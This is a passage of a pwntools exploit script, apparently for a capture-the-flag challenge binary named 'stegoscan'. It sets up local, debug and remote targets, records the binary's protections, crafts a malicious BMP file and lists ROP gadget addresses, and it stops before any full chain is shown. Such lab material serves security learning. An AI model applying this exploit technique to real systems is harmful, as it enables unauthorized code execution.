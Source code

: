 ```python
    if args.GDB:
        return gdb.debug([exe] + [exploit_bmp], gdbscript=gdbscript)
    elif args.REMOTE:
        return remote(host, port)
    else:
        return process([exe] + [exploit_bmp])

gdbscript = '''
init-pwndbg

# main's ret
break *0x401e2e
'''.format(**locals())

# =========================================================
#                         EXPLOITS
# =========================================================
# pwndbg> !file ./challenge/stegoscan
# ./challenge/stegoscan: ELF 64-bit LSB executable, x86-64, version 1 (GNU/Linux), statically linked, BuildID[sha1]=984429b7f4d456663e5c4dbd7050a337e0530bbb, for GNU/Linux 3.2.0, not stripped
# └──╼ [★]$ pwn checksec challenge/stegoscan 
#     Arch:     amd64-64-little
#     RELRO:    Partial RELRO
#     Stack:    Canary found
#     NX:       NX enabled
#     PIE:      No PIE (0x400000)

# http://www.ue.eti.pg.gda.pl/fpgalab/zadania.spartan3/zad_vga_struktura_pliku_bmp_en.html

MIN_IMGSIZE = 400
MAX_IMGSIZE = 900

def build_bmp(signature=b'BM', fileSize=0, reserved=0, dataOffset=54,
              headerSize=40, width=30, height=30, colorPlanes=1,
              bitsPerPixel=24, compression=0, imageSize=500,
              horizontalResolution=2835, verticalResolution=2835,
              numColors=0, importantColors=0, RasterData=None):

    # challenge specific checks
    if imageSize < MIN_IMGSIZE:
        raise ValueError('Image size is too small')
    if imageSize > MAX_IMGSIZE:
        raise ValueError('Image size is too large')
    if width != height:
        raise ValueError('Only square images are supported')

    # Pack BMP header (14 bytes)
    bmp_header = struct.pack('<2sIHHI', signature, fileSize, reserved, reserved, dataOffset)

    # Pack DIB header (40 bytes)
    dib_header = struct.pack('<IIIHHIIIIII', headerSize, width, height, colorPlanes, bitsPerPixel,
                             compression, imageSize, horizontalResolution, verticalResolution,
                             numColors, importantColors)

    bmp_data = bmp_header + dib_header + RasterData
    return bmp_data

MOV_RDX_TO_PTR_RSI = 0x0000000000488cea
POP_RAX = 0x0000000000450847
POP_RDI = 0x000000000040253f
POP_RDX_RBX = 0x00000000004868eb
POP_RSI = 0x000000000040a5ae
SYSCALL =  0x00000000004022f4
```